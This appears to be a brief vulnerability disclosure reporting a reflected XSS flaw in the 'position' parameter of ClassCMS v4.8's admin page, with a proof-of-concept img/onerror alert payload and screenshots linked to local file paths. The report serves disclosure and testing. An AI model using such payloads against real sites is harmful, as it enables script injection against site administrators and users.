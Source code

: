 #### BUG_AUTHOR:acmglz
# Classcms Reflected xss exists in the background column management
## Download address:
https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8
## Version:V4.8
## Tested on: PHP, Apache, MySQL
## Affected Page:
/index.php/admin

On this page, position parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
## Payload：
```
<img src=1 onerror=alert(/222/)>
```
## Trigger popup：
![image-20240823163707205](/C:/Users/qaz/AppData/Roaming/Typora/typora-user-images/image-20240823163707205.png)

This page can be triggered after being modified

![image-20240823163729151](/C:/Users/qaz/AppData/Roaming/Typora/typora-user-images/image-20240823163729151.png)

![image-20240823163737644](/C:/Users/qaz/AppData/Roaming/Typora/typora-user-images/image-20240823163737644.png)
